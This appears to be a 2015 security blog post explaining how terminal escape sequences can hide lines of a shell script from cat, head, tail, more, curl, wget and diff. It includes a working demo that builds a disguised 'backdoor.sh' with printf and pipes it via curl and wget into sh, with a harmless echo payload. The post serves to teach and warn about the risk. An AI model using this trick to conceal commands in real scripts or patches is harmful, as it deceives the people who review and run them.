 ```yaml
---
layout: post
title: Terminal Escape Sequences - the New XSS for Admins
author:
modified:
comments: true
categories: sysadmin
excerpt: "If the terminal understands the sequence, it won't display the character-sequence, but will perform some action."
tags: [Linux, SysAdmin, Security, XSS]
image:
  url: https://cloud.githubusercontent.com/assets/1223371/9952328/ecef0a38-5df1-11e5-8b0d-5279a1bdc955.png
  alt: Terminal Escape Sequences - the New XSS for Admins
  title: Terminal Escape Sequences - the New XSS for Admins
  feature:
date: 2015-09-18T10:31:11+05:30
---
```


### How it technically works

* A terminal escape sequence is a special sequence of characters that is printed (like any other text).
* If the terminal understands the sequence, it won't display the character-sequence, but will perform some action.

{% highlight bash %}
$ printf '#!/bin/bash\necho doing something evil!\nexit\n\033[2Aecho doing something very nice!\n' > backdoor.sh

$ chmod +x backdoor.sh

$ cat backdoor.sh
#!/bin/bash
echo doing something very nice!

$ ./backdoor.sh
doing something evil!
{% endhighlight %}

* As you can see, our beloved 'cat' cheated on us.
* Instead of displaying the character-sequence, the escape sequence \033[XA (being X the number of times) performed some action.
* And this action moves the cursor up X times, overwriting what is above it X lines.
* But this doesn't affect only `cat`, it affects everything that interprets escape sequences.

{% highlight bash %}
$ head backdoor.sh
#!/bin/bash
echo doing something very nice!

$ tail backdoor.sh
#!/bin/bash
echo doing something very nice!

$ more backdoor.sh
#!/bin/bash
echo doing something very nice!

$ curl 127.0.0.1/backdoor.sh
#!/bin/bash
echo doing something very nice!

$ wget -qO - 127.0.0.1/backdoor.sh
#!/bin/bash
echo doing something very nice!
{% endhighlight %}

* But if we pipe it into a shell

{% highlight bash %}
$ curl -s 127.0.0.1/backdoor.sh|sh
doing something evil!

$ wget -qO - 127.0.0.1/backdoor.sh|sh
doing something evil!
{% endhighlight %}

* `diff` also interprets escape sequences and so do the resulting patches

{% highlight bash %}
$ cat backdoor.sh #evil file
#!/bin/bash
echo doing something very nice!

$ cat legit.sh #actually echoes doing something very nice!
#!/bin/bash
echo doing something very nice!

$ diff -Naur backdoor.sh legit.sh
--- backdoor.sh	2015-09-17 16:25:42.985349535 +0100
+++ legit.sh	2015-09-17 16:26:14.950158635 +0100
@@ -1,4 +1,2 @@
  #!/bin/bash
-echo doing something very nice!
+echo doing something very nice!
{% endhighlight %}

### Reference

<a href= "http://www.openwall.com/lists/oss-security/2015/09/17/5">http://www.openwall.com/lists/oss-security/2015/09/17/5</a>
<a href= "http://www.openwall.com/lists/oss-security/2015/08/11/8">http://www.openwall.com/lists/oss-security/2015/08/11/8</a>
<a href= "http://turbochaos.blogspot.ca/2014/08/journalctl-terminal-escape-injection.html">http://turbochaos.blogspot.ca/2014/08/journalctl-terminal-escape-injection.html</a>
